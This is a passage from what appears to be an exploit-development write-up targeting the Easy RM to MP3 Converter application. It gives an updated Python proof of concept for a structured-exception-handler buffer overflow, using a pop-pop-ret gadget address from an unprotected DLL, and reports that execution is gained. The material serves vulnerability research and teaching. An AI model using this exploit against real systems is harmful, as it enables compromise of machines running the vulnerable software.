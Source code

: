 ![](/assets/img/Findings3/12.png)

The first address was chosen and inserted into the script.

Updated PoC:

```term_session
import struct

nseh = struct.pack("<I", 0x06710870)
seh = struct.pack("<I", 0x10025A2E) # 0x10025a2e : pop ecx # pop esi # ret  | ascii {PAGE_EXECUTE_READ} [MSRMfilter03.dll] ASLR: False, 
Rebase: False, SafeSEH: False, OS: False, v-1.0- (C:\Program Files\Easy RM to MP3 Converter\MSRMfilter03.dll)

buffer = "A" * 9008 + nseh + seh + "\xff" * 200

f = open ("finding3.txt", "w")
f.write(buffer)
f.close()
```
Succeeding the crash, SHIFT+F9 is pressed, granting execution:
